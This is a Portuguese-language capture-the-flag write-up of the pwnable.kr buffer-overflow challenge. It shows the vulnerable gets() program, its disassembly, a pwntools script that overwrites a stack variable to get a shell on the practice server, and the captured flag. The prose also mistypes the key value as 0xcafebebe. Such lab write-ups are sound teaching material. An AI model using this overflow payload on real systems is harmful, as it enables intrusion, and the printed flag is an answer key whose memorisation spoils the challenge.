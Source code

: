 # Challenge 2: Buffer Overflow

## Autores
- [Guilherme Locca Salomão](https://github.com/Caotichazard), 758569
- [João Victor Mendes Freire](https://github.com/joaovicmendes), 758943
- [Martin Heckmann](https://github.com/heckmartin), 758986

## Descrição
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

<img src="screencaps/nc.png"/>

## Solução
Inicialmente, o problema nos mostra o seguinte código fonte:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
O objetivo do código é fazer com que `key` seja igual a `0xcafebebe`, mas o programa foi compilado passando a chave `0xdeadbeef`.
O próprio código já nos aponta pro lugar onde uma vulnerabilidade pode ser encontrada, na função `gets()`. A função, pertencente à `libc`, tem a seguinte descrição no `man`.

```
The gets() function is equivalent to fgets() with an infinite size and a stream of stdin,
except that the newline character (if any) is not stored in the string. It is the caller's
responsibility to ensure that the input line, if any, is sufficiently short to fit in the string.
```

Essa descrição já deixa claro o que deve ser feito: a função não verifica se o buffer alocado tem espaço suficiente para armazenar o conteúdo que será lido da entrada padrão. Assim, é possível fazermos um buffer overflow para alterar os conteúdos da pilha do programa.

Ao utilizarmos o programa `objdump` pra descompilar o código, obtemos o seguinte código assembly para a função `main` e `func`:

<img src="screencaps/objdump.png"/>

```
0000068a <main>:
     68a: 55                           	pushl	%ebp
     68b: 89 e5                        	movl	%esp, %ebp
     68d: 83 e4 f0                     	andl	$-16, %esp
     690: 83 ec 10                     	subl	$16, %esp
     693: c7 04 24 ef be ad de         	movl	$3735928559, (%esp)
     69a: e8 8d ff ff ff               	calll	0x62c <func>
     69f: b8 00 00 00 00               	movl	$0, %eax
     6a4: c9                           	leave
     6a5: c3                           	retl
```

```
0000062c <func>:
     62c: 55                           	pushl	%ebp
     62d: 89 e5                        	movl	%esp, %ebp
     62f: 83 ec 48                     	subl	$72, %esp
     632: 65 a1 14 00 00 00            	movl	%gs:20, %eax
     638: 89 45 f4                     	movl	%eax, -12(%ebp)
     63b: 31 c0                        	xorl	%eax, %eax
     63d: c7 04 24 8c 07 00 00         	movl	$1932, (%esp)
     644: e8 fc ff ff ff               	calll	0x645 <func+0x19>
     649: 8d 45 d4                     	leal	-44(%ebp), %eax
     64c: 89 04 24                     	movl	%eax, (%esp)
     64f: e8 fc ff ff ff               	calll	0x650 <func+0x24>
     654: 81 7d 08 be ba fe ca         	cmpl	$3405691582, 8(%ebp)
     65b: 75 0e                        	jne	0x66b <func+0x3f>
     65d: c7 04 24 9b 07 00 00         	movl	$1947, (%esp)
     664: e8 fc ff ff ff               	calll	0x665 <func+0x39>
     669: eb 0c                        	jmp	0x677 <func+0x4b>
     66b: c7 04 24 a3 07 00 00         	movl	$1955, (%esp)
     672: e8 fc ff ff ff               	calll	0x673 <func+0x47>
     677: 8b 45 f4                     	movl	-12(%ebp), %eax
     67a: 65 33 05 14 00 00 00         	xorl	%gs:20, %eax
     681: 74 05                        	je	0x688 <func+0x5c>
     683: e8 fc ff ff ff               	calll	0x684 <func+0x58>
     688: c9                           	leave
     689: c3                           	retl
```

Em `func`, podemos observar que o programa compara `3405691582` (a versão decimal de `0xcafebebe`) com a posição de memória `ebp` + 8 bytes. Essa é a comparação que desejamos explorar, para fazer com que, após executar o `gets`, `ebp+8` tenha o valor `0xcafebebe`. Um pouco antes, no `call` que faz a chamada para `gets`, é possível ver que ele copia o conteúdo que retorna (`eax`) para `-44(%ebp)` (ou seja, esta 44 bytes abaixo do ponteiro base). Isso indica que é nessa posição que o buffer está alocado. Logo, devemos começar a preencher a partir dessa região com dados aleatórios, e depois colocaremos `0xcafebebe` logo após `ebp` para que a comparação seja verdadeira.

O seguinte script Python usa a biblioteca pwn para abrir uma conexão com o servidor e enviar a linha que executa o exploit.

```python
import pwn

input_text = 'A'*52 # para preenchermos o espaço do buffer até chegar em ebp
input_text += '\xbe\xba\xfe\xca' # o valor que será armazenado em key

conn = pwn.remote('pwnable.kr', 9000) # conexão com o servidor que está executando o programa

conn.sendline(input_text)
conn.interactive()
````

Com esse código, conseguimos um shell interativo, e basta realizarmos um `cat flag` que obtemos `daddy, I just pwned a buFFer :)`.

<img src="screencaps/overflow.png"/>
